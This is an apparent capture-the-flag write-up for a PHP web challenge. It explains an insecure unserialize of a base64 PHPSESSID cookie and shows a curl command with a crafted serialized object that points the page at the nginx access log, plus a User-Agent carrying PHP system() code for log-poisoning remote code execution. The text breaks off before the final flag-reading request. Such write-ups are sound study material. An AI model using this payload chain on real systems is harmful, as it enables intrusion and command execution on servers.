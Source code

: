 - static website
- in the challenge we have this 2 php file
- ![My Image](img/11.png)
- ![My Image](img/22.png)
- the code checks if the PHP session ID ($_COOKIE['PHPSESSID']) is empty. If it is empty, it creates a new instance of the PageModel class, sets the file property to **'/www/index.html'**, and serializes the instance using serialize(). Then it encodes the serialized object with base64 encoding and sets it as a cookie named 'PHPSESSID'.
- Finally, the code attempts to retrieve and **unserialize** the 'PHPSESSID' cookie value.
- so i craft a cookie **PHPSESSID** with a path /var/log/nginx/access.log to see the nginx logs
```
curl -b "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==" http://46.101.78.65:30584/ -A "<?php system('ls /'); ?>"
```
- with this request i get this output and as you can see there is a file named flag_****
- 
- so i send this request to get the content of the file
- 
